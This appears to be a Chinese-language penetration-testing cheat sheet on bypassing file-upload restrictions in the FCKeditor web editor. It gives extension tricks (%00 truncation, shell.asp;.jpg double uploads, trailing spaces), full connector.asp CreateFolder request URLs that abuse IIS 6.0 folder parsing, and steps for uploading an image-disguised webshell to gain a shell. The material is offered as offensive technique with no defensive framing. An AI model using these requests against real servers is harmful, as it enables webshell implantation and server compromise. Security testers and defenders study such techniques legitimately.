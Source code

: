 ```yaml
---
title: "三、FCKeditor 突破上传"
id: zhfly2936
---
```


# 上传限制

上传限制的突破方式很多，主要还是抓包改扩展名，%00截断，添加文件头等

# 文件名限制

## 二次上传绕过

文件名‘ . ’ 修改为‘ _ ’

FCK在上传了诸如shell.asp;.jpg的文件后，会自动将文件名改为shell_asp;.jpg。可以继续上传同名文件，文件名会变为shell.asp;(1).jpg

## 提交shell.php+空格绕过

提交shell.php+空格绕过

空格只支持windows系统，linux系统是不支持的，可提交shell.php+空格来绕过文件名限制。

# iis6.0突破文件夹限制

```
Fckeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=File&CurrentFolder=/shell.asp&NewFolderName=z.asp
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp 
```

# 文件解析限制

通过Fckeditor编辑器在文件上传页面中，创建诸如1.asp文件夹，然后再到该文件夹下上传一个图片的webshell文件，获取其shell。

```
http://www.0-sec.o../img/upload/201806/image/1.asp/1.jpg 
```